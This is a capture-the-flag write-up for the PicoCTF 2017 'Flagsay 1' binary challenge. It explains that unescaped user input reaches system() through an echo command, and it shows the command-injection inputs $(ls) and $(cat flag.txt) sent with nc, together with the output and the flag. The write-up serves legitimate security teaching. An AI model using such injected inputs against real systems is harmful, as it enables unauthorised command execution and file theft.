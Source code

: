 # PicoCTF_2017: Flagsay 1

**Category:** Binary
**Points:** 80
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1.c)! Source. Connect on shell2017.picoctf.com:51865.

**Hint:**

>System will run exactly what the program gives it

## Write-up
Another simple 1, looking at the source code reveals that whatever is inputted by the user is then `echo` by system.

    char commandBase[] = "/bin/echo \"%s\"\n";

However, input is unescaped, so we can pass on a shell command like

    $ nc shell2017.picoctf.com 51865
    $(ls)
                   _                                        
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
                 //flagsay-1
    flagsay-1_no_aslr
    flag.txt
    xinetd_wrapper.sh                              /     
                //                                   /      
               //                                   /       
              //                                   /        
             //                                   /         
            //                                   /          
           //___________________________________/           
          //                                                
         //                                                 
        //                                                  
       //                                                   
      //                                                    
     //

Then, we can do something like this

    $ nc shell2017.picoctf.com 51865
    $(cat flag.txt)
                   _                                        
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
                 //2ab2050bf32e84975a10d774a919e1d0                    /     
                //                                   /      
               //                                   /       
              //                                   /        
             //                                   /         
            //                                   /          
           //___________________________________/           
          //                                                
         //                                                 
        //                                                  
       //                                                   
      //                                                    
     // 

Therefore, the flag is `2ab2050bf32e84975a10d774a919e1d0`.
